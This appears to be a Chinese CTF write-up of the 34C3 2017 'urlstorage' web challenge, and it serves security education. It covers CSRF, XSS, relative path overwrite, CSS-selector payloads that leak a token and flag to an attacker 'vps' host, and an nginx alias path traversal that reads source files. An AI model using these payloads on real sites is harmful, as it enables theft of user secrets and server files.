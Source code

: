 # 34c3-2017-urlstorage

对题目稍微测试可以发现:
* `/urlstorage` 页面修改 url 存在 CSRF
* `/flag?token={xss}` 页面 token 参数存在 XSS，最多 64 个字符，获取 flag 只依赖前 32 位
* `/contact` 页面发送参数给 admin，用于攻击

同时站点存在 CSP
```
Content-Security-Policy: frame-ancestors 'none'; form-action 'self'; connect-src 'self'; script-src 'self'; font-src 'self' ; style-src 'self';
```

`frame-src` 和 `default-src` 未定义，因此站点可以加载任意 iframe

## rpo

因为整个站点是 django 写的，页面通过路由实现，因此在后面加入什么路径，返回的页面都与 `/urlstorage` 一样

```
http://127.0.0.1:8012/urlstorage/random_str/123 = http://127.0.0.1:8012/urlstorage
```

然后发现页面采用相对路径导入 CSS，存在 rpo 漏洞

```html
<link href="static/css/milligram.min.css" type="text/css" rel="stylesheet" media="screen,projection">
```

因此访问 `http://127.0.0.1:8012/urlstorage/random_str/123` 时，加载的 CSS 文件为 `http://127.0.0.1:8012/urlstorage/random_str/123/static/css/milligram.min.css`，后面全部被路由处理忽略，返回 urlstorage 页面的源码

![rpo](img/rpo.png)

页面源码被当作 CSS 加载，url 可控，我们便可以控制页面内容

这里有个 trick(摘自 Lorexxar 师傅博客)：
> CSS 在加载的时候与 JS 一样是逐行解析的，不同的是 CSS 会忽略页面中不符合 CSS 语法的行

尝试 POST `url=%0a{}%0a*{color:red}` 触发 rpo

![css](img/css.png)

## 获取 token
可以通过 css 选择器去匹配网页链接中的内容，结合 rpo 外带数据

```
a[href^=flag\?token\=0]{background: url(//vps/rpo/logging.php?c=0);}
a[href^=flag\?token\=f]{background: url(//vps/rpo/logging.php?c=f);}
..
a[href^=flag\?token\=10]{background: url(//vps/rpo/?c=10);}
a[href^=flag\?token\=11]{background: url(//vps/rpo/?c=11);}
..
```

在 VPS 上写入如下功能的 PoC：
1. 生成利用 CSRF 修改 admin 的 url 为 css payload 的表单
2. 提交表单到 `/urlstorage/rpo`，触发 css payload
3. 循环获取 32 位 token

这里有一个坑，由于 css 选择器在匹配的时候， 如果 value 值首字符是数字，就不会将 value 当做合法字符串，必须加双引号。
而 token 开头的字符可能为数字，flag 开头也为 34c3，单/双引号均被编码，因此都需要用其他方法生成 payload：
```
以获取 flag 为例
1. 使用css的*模糊匹配

#flag[value*=C3_1]{background: url(http://vps/?flag=C3_1);}

* 号选择器代表这属性中包含这个字段，由于flag中有_存在，所以不会对flag的获取有影响

2. 使用16进制编码

#flag[value^=\33\34\43\33]{background: url(http://vps/?flag34c3);}
```

虽然这里 `XSS-Protection=1`，但 admin 是运行在 phantomjs 上，因此应该不会有 XSS Auditor

## 获取 flag
flag 保存在一个 name 为 flag 的 textbox，同样利用 css 带出数据

payload
```
#flag[value*=C3_0]{background: url(http://vps?flag=C3_0);}
#flag[value*=C3_1]{background: url(http://vps?flag=C3_1);}
...
#flag[value*=C3_f]{background: url(http://vps?flag=C3_f);}
```

但是由于 flag 在 `/flag` 页面下，而 css 触发 rpo 是在 `/urlstorage` 页面下

这里有个知识点：
> 在浏览器处理相对路径时，一般情况是获取当前 url 的最后一个 / 前作为 base url，但如果页面中给出了 base 标签，那么就会读取 base 标签中的 url 作为 base url。

因此我们可以通过 XSS 注入 `/flag?token=06b05e82a2e5443d36d3cc34007fb8a6</title><base/href=/urlstorage/rpo>`，让 `/flag` 页面导入的 css 路径为 `/urlstorage/rpo/static/css/milligram.min.css`

官方 [PoC](exploit.php)

然后在 contact 页面提交 url  `http://127.0.0.1/flag?token=</title><iframe/src=vps/exploit.php`，一段时间后访问 `http://vps/exploit.php?flag2` 获得 flag

## 非预期
题目用了 nginx 做反向代理，其中静态文件目录配置如下

```c
 location /static {
     alias /app/urlstorage/static/;
 }
```

存在目录穿越漏洞（漏洞详情戳 [三个案例看 Nginx 配置安全](https://www.leavesongs.com/PENETRATION/nginx-insecure-configuration.html))

访问 `http://127.0.0.1:8012/static../views.py` 获得源码，直接 `/static../templates/flag.html` 获得 flag

## References
[34C3 CTF 2017 – URLSTORAGE WRITEUP](https://l4w.io/2017/12/34c3-ctf-2017-urlstorage-writeup/)

[34c3 Web部分Writeup](https://lorexxar.cn/2018/01/02/34c3-writeup/)

[【技术分析】RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)
